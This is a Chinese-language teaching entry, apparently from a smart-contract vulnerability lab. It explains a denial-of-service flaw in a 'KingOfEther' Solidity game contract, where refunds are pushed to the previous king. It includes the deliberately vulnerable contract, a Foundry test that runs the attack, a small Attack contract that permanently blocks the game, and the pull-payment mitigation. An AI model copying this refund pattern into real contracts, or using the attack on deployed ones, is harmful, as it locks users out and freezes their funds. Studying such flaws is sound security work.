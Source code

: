 # 拒绝服务攻击  
[DOS.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/DOS.sol)  

**名称：** 拒绝服务攻击  
**描述：**   
KingOfEther合约有一个游戏，用户可以通过发送比当前余额更多的以太币来夺取王位。  
当新用户发送更多以太币时，合约试图将之前的余额返还给上一位“国王”。   

然而，这个机制可能被利用。攻击者的合约(这里称为Attack合约)可以成为国王，  
然后使回退函数回滚或消耗超过规定的gas限制，从而导致KingOfEther合约在尝试将以太币返回给上一位国王时失败。


**缓解措施：**  
使用拉取支付模式。一种防止这种情况的方法是允许用户提取他们的以太币，而不是直接发送给他们。  

**参考：**  
https://slowmist.medium.com/intro-to-smart-contract-security-audit-dos-e23e9e901e26  

**KingOfEther合约：**  
```
contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/DOS.sol -vvvv  
```
// 这是一个测试函数，用于执行DoS攻击的场景
function testDOS() public {
    // 声明了两个地址，分别用于模拟用户Alice和Bob。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Alice和Bob分别获得4个以太币和2个以太币。
    vm.deal(address(alice), 4 ether);
    vm.deal(address(bob), 2 ether);

    // 使用Alice的地址调用prank函数
    vm.prank(alice);

    // Alice试图通过发送1个以太币来夺取KingOfEtherContract的王位
    KingOfEtherContract.claimThrone{value: 1 ether}();

    // 再次调用prank函数，这次使用Bob的地址。
    vm.prank(bob);

    // Bob试图通过发送2个以太币来夺取王位
    KingOfEtherContract.claimThrone{value: 2 ether}();

    // 记录Alice在返回1个以太币后的余额
    console.log("Return 1 ETH to Alice, Alice of balance", address(alice).balance);

    // 调用Attack合约的attack函数，发起DoS攻击，
    // 向KingOfEther合约发送3个以太币。
    AttackerContract.attack{value: 3 ether}();

    // 记录KingOfEther合约的余额
    console.log("Balance of KingOfEtherContract", KingOfEtherContract.balance());

    // 记录一条消息，表明攻击已完成，Alice将无法再次夺取王位。
    console.log("Attack completed, Alice claimthrone again, she will fail");

    // 使用Alice的地址再次调用prank函数，预期会触发回滚。
    vm.prank(alice);
    vm.expectRevert("Failed to send Ether");

    // Alice试图再次夺取王位，但由于DoS攻击而失败。
    KingOfEtherContract.claimThrone{value: 4 ether}();
}

// 这是用于实施DoS攻击的合约
contract Attack {
    KingOfEther kingOfEther;

    // 用于初始化KingOfEther合约的构造函数。
    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // 通过向KingOfEther合约发送以太币来夺取王位的攻击函数。
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```  
**红框：在攻击漏洞后，没有人能够赢得这个游戏  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F250bdebe-a8ed-459a-b62f-bcf5c992c156%2FUntitled.png?table=block&id=17d7c11c-3273-49da-95a4-d6ba9817ad4b&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

